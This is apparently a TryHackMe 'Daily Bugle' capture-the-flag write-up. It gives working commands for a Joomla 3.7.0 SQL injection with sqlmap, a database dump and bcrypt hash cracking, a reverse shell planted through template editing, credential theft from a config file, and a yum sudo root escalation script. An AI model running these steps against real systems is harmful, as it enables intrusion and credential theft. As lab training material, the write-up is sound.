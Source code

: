 # Daily Bugle

- [Tools](#tools)
- [Deploy](#deploy)
- [Obtain user and root](#obtain-user-and-root)
- [Credits](#credits)
 
Room Link: https://tryhackme.com/room/dailybugle

## Tools 

1. NMap https://nmap.org/download
2. JoomScan https://github.com/OWASP/joomscan
3. SearchSploit https://www.exploit-db.com/searchsploit
4. SQLMap https://github.com/sqlmapproject/sqlmap
5. hashid https://pypi.org/project/hashID/
6. John The Ripper https://www.openwall.com/john/

## Deploy 

1. Start the machine and open the ip in browser.
2. Opening the site shows favicon of joomla on main page and a image with a man masked as spider man, looks like an robber.
3. Question `Access the web server, who robbed the bank?` Answer `spiderman`

## Obtain user and root

1. Running nmap gives some ports.
```bash
nmap -A 10.10.250.153
Starting Nmap 7.94 ( https://nmap.org ) at 2024-03-05 11:33 IST
Nmap scan report for 10.10.250.153
Host is up (0.18s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
|_  256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
80/tcp   open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 15 disallowed entries 
| /joomla/administrator/ /administrator/ /bin/ /cache/ 
| /cli/ /components/ /includes/ /installation/ /language/ 
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
3306/tcp open  mysql   MariaDB (unauthorized)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.97 seconds
```
2. Question `What is the Joomla version?` Answer `3.7.0`
Got this details using OWASP joomscan by Mohammad Reza Espargham , Ali Razmjoo.
Command used: `joomscan  -u http://10.10.250.153/`
4. Using SearchSploit by exploitDB gives us SQL injection exploits on this joomla CMS version.
```bash
searchsploit joomla 3.7.0
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
Joomla! 3.7.0 - 'com_fields' SQL Injection    | php/webapps/42033.txt
Joomla! Component Easydiscuss < 4.0.21 - Cros | php/webapps/43488.txt
---------------------------------------------- ---------------------------------
Shellcodes: No Results

```
5. After some reasearch on the exploit https://www.exploit-db.com/exploits/42033 and using some commands in SQLMap,
At first we crafted a command to begin SQL injection `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E`
6. Then crafted a SQLMap command to get db names `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E --dbs` and got a database named `joomla`
7. Then crafted a command to table names on DB `joomla` command `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E -D joomla --tables` and we will get a table named `#__users`
8. To extract the table column names, we can use this command, `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E -D joomla -T "#__users" --columns` it will prompt for bruteforcing existing column names, we can find some column names like `id`, `username`, `email`, `password` etc.
9. Then, crafted a command to get password hash of users. `sqlmap -u "http://10.10.250.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -p list[fullordering] --threads=10 --dbms=MySQL --technique=E -D joomla -T "#__users" -C id,name,username,email,password --dump`
It shows result like that,
```bash
+-----+------------+----------+---------------------+--------------------------------------------------------------+
| id  | name       | username | email               | password                                                     |
+-----+------------+----------+---------------------+--------------------------------------------------------------+
| 811 | Super User | jonah    | jonah@tryhackme.com | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
+-----+------------+----------+---------------------+--------------------------------------------------------------+
```
10. We used `hashid` to detect hash type and it could be `bcrypt`.
```bash
hashid '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
Analyzing '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'
[+] Blowfish(OpenBSD) 
[+] Woltlab Burning Board 4.x 
[+] bcrypt
```
11. Now we can use `john the ripper` to decrypt the hash, using `rockyou.txt` wordlist.
```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=bcrypt
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
***********   (?)
1g 0:00:09:27 DONE (2020-06-14 17:12) 0.001762g/s 82.55p/s 82.55c/s 82.55C/s sweetsmile..speciala
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
12. Question `What is Jonah's cracked password?` Answer `spiderman123`
13. Now we can login using username `jonah` and password `spiderman123` on http://10.10.250.153/administrator/.
14. Now just goto `Extensions` > `Templates` > `Templates` and select `Beez3` and edit the `index.php` file to get reverse shell.
15. Now started  `netcat` with `nc -lvnp 1234` and replaced the code in `index.php` with pentestmonkey shell with own ip port and save.
16. Opening http://10.10.250.153/templates/beez3/index.php will give shell.
```bash
nc -nlvp 1234
Listening on 0.0.0.0 1234
Connection received on 10.10.250.153 56764
Linux dailybugle 3.10.0-1062.el7.x86_64 #1 SMP Wed Aug 7 18:08:02 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 04:23:12 up  5:27,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
```
17. We can see only user named `jjameson` with command `ls /home`.
18. After some digging we got some password `*************` inside `/var/www/html/configuration.php` using `cat /var/www/html/configuration.php`.
19. So used the password to login ssh as user `jjameson` and got the flag
```bash ssh jjameson@10.10.250.153
The authenticity of host '10.10.250.153 (10.10.250.153)' can't be established.
ED25519 key fingerprint is SHA256:Gvd5jH4bP7HwPyB+lGcqZ+NhGxa7MKX4wXeWBvcBbBY.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.250.153' (ED25519) to the list of known hosts.
jjameson@10.10.250.153's password: 
Last login: Tue Mar  5 04:27:31 2024
[jjameson@dailybugle ~]$ cat /home/jjameson/user.txt
**************************
```
20. Question `What is the user flag?` Answer `**************************`
21. Using `sudo -l` command shows `/usr/bin/yum`.
```bash
sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin,
    env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE",
    env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE",
    env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
22. Lets follow https://gtfobins.github.io/gtfobins/yum/ sudo exploit to get root.
23. Just copy pasting given commands in `b` will upgrade ssh to `root`
```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```
24. So typing `cat /root/root.txt` will give us root flag.
```bash
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# cat /root/root.txt
******************************
```
25. Question `What is the root flag?` Answer `**************************`

## Credits

1. We already completed the machine, just click on completed.

Author: [Zishan Ahamed Thandar](https://ZishanAdThandar.github.io)

